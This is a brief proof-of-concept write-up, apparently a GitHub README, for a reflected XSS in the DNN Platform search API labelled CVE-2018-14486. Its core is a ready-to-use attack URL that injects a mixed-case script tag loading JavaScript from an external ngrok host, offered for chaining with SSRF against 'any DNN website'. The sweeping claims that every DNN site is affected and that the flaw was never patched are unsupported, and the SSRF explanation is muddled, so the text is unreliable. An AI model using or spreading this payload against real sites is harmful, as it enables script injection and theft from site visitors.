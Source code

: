 ﻿*Please note that this works on all DNN websites, it is a no-fix vulnerability that was never patched. This is a proof of concept that can be used to chain together SSRF and XSS on any DNN website.*

## Remote XSS in DNN Platform
### CVE-2018-14486
#### Description
DNN Platform is an open source .NET CMS and the DNN CMS Platform is a well-known CMS system based on .NET. The DNN CMS Platform has a no-fix exploit from 2018 they never fixed allowing us to use their search API to reflect contents of it on a remote website.

#### Vulnerability Type
Cross Site Scripting (XSS)

#### Vendor of Product
DNN Corp.

#### Affected Product Code Base
All DNN Products

#### Affected Component
DotNetNuke Core

#### Attack Type
Remote

#### Proof of Concept
Leveraging SSRF on another website, I can chain together XSS on the DNN Platform. The following is a proof of concept that will reflect Message back onto the SSRF Vulnerable website.

```html
https://www.dnnvictimsite.com/API/internalservices/searchService/search?search=\'"<ScRiPt src="https://asdasd.ngrok.io/xss.js"/>
```

>[!note]
> Leveraging this method allows us to reflect and abuse the vulnerability on all vulnerable SSRF websites.